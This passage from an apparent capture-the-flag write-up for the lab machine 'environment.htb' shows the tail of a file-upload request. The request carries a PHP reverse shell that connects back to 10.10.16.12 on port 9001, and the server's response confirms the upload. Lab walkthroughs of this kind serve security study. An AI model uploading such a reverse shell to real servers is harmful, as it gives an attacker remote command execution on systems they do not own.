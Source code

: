 ```shell
// change the host address and/or port number as necessary
$sh = new Shell('10.10.16.12', 9001);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>

------WebKitFormBoundaryA16XmwIlgCRyFsnT--

```

```shell
HTTP/1.1 200 OK
Server: nginx/1.22.1
Content-Type: application/json
Connection: keep-alive
Cache-Control: no-cache, private
Date: Sun, 04 May 2025 09:39:39 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6IkpQbDhoQ3VHZmN5QTBZaVJLWXJKVHc9PSIsInZhbHVlIjoiYXJ5Nk1vdTlwWi9wSGhPWHFSbVdZWFM2dGVCUXFUVVh5NS9rTzRSWU10Wmk4Mkw4RXpwRURucVR0eVFyWTdEMVBFWGlReFlUUjh2MWEwWkszWTc0dFhpTDgvSDluSTBxRElVZWlEc0diODJjb09ueHFEUCtkT3VSdzVZWHVGa3oiLCJtYWMiOiJiZjU5NjAzMjE0MWI0ZjdkMDI3ZjE4ZGQ5MzkwMDg2YTAyNGE3MTZhYzE5NzEyZmU1NjhmODc4YmNlNmM5MjY0IiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 11:39:39 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6IlFtVGY2WUxRNUF5TWZ6d2NubEJwNlE9PSIsInZhbHVlIjoiMW45TVFCYzFDZlljYWlISG0wNkxIMlBsMlBzNGxWMTcyZWVlUzZQQkpTV2V4Um5tekFCanV3eDNUcHpoQ1d3NmZzc1IzWjRHeFNwTzk5SnBVMGgvOXVUdzUzeFlZWG5CR3lWWEZEVVN2bGFuMDhrR21UWFkyb0hrVkFkeERkV08iLCJtYWMiOiIwOThjYjNjYTY3OTJhODQyYzRkMTQ1MTJiNGFlY2YwMGE5NWEzM2M0NDI0NTVlN2ZlNWIwODg1N2QyZmMzYTk2IiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 11:39:39 GMT; Max-Age=7200; path=/; httponly; samesite=lax
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Content-Length: 150

{"url":"http:\/\/environment.htb\/storage\/files\/php_reverse_shell.php","uploaded":"http:\/\/environment.htb\/storage\/files\/php_reverse_shell.php"}
```

![](images/2025-05-04_11-45_reverse_shell_upload.png)
